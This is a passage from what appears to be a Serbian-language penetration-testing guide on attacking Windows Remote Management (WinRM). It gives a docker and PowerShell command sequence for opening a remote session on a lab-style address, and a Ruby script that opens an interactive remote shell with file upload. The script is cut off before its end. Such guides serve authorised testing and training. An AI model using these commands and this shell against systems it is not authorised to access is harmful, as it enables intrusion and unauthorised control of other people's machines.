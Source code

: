 Kada završite sa napadom, možete jednostavno zaustaviti PS-docker mašinu i izbrisati je. Ovo vam omogućava da održavate čistu i izolovanu okolinu za svaki napad na WinRM.

Korišćenje PS-docker mašine je moćan alat za napad na WinRM, koji vam omogućava da izvršite napade na WinRM na efikasan i siguran način.
```
docker run -it quickbreach/powershell-ntlm
$creds = Get-Credential
Enter-PSSession -ComputerName 10.10.10.149 -Authentication Negotiate -Credential $creds
```
### Korišćenje ruby skripte

**Kod izvučen odavde: [https://alamot.github.io/winrm\_shell/](https://alamot.github.io/winrm\_shell/)**
```ruby
require 'winrm-fs'

# Author: Alamot
# To upload a file type: UPLOAD local_path remote_path
# e.g.: PS> UPLOAD myfile.txt C:\temp\myfile.txt
# https://alamot.github.io/winrm_shell/


conn = WinRM::Connection.new(
endpoint: 'https://IP:PORT/wsman',
transport: :ssl,
user: 'username',
password: 'password',
:no_ssl_peer_verification => true
)


class String
def tokenize
self.
split(/\s(?=(?:[^'"]|'[^']*'|"[^"]*")*$)/).
select {|s| not s.empty? }.
map {|s| s.gsub(/(^ +)|( +$)|(^["']+)|(["']+$)/,'')}
end
end


command=""
file_manager = WinRM::FS::FileManager.new(conn)


conn.shell(:powershell) do |shell|
until command == "exit\n" do
output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
print(output.output.chomp)
command = gets
if command.start_with?('UPLOAD') then
upload_command = command.tokenize
print("Uploading " + upload_command[1] + " to " + upload_command[2])
file_manager.upload(upload_command[1], upload_command[2]) do |bytes_copied, total_bytes, local_path, remote_path|
puts("#{bytes_copied} bytes of #{total_bytes} bytes copied")
end
command = "echo `nOK`n"
end
output = shell.run(command) do |stdout, stderr|
STDOUT.print(stdout)
STDERR.print(stderr)
end
```